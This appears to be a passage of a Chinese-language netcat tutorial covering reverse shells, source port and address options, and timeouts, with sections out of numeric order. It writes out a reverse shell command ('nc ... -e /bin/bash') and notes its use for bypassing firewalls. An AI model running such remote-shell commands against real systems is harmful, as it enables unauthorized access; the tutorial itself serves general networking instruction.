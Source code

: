### 反向shell
反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

  服务端
  $nc -l 1567

在客户端，简单地告诉netcat在连接完成后，执行shell。

  客户端
  $nc 172.31.100.7 1567 -e /bin/bash

现在，什么是反向shell的特别之处呢
反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。

## 10. 指定源端口(-p port)

假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。

  服务器端
  $nc -l 1567
  客户端
  $nc 172.31.100.7 1567 -p 25

该命令将在客户端开启25端口用于通讯，否则将使用随机端口。

## 11. 指定源地址(-s src)
假设你的机器有多个地址，希望明确指定使用哪个地址用于外部数据通讯。我们可以在netcat中使用-s选项指定ip地址。

  服务器端
  $ nc -u -l 1567 < file.txt
  客户端
  $ nc -u 172.31.100.7 1567 -s 172.31.100.5 > file.txt

该命令将绑定地址172.31.100.5。

这仅仅是使用netcat的一些示例。

## 其它用途有

    使用-t选项模拟Telnet客户端，
    HTTP客户端用于下载文件，
    连接到邮件服务器，使用SMTP协议检查邮件，
    使用ffmpeg截取屏幕并通过流式传输分享，等等。

只要你了解协议就可以使用netcat作为网络通讯媒介，实现各种客户端。

## 3. Netcat 支持超时控制

多数情况我们不希望连接一直保持，那么我们可以使用 -w 参数来指定连接的空闲超时时间，该参数紧接一个数值，代表秒数，如果连接超过指定时间则连接会被终止。

服务器:

  nc -l 2389
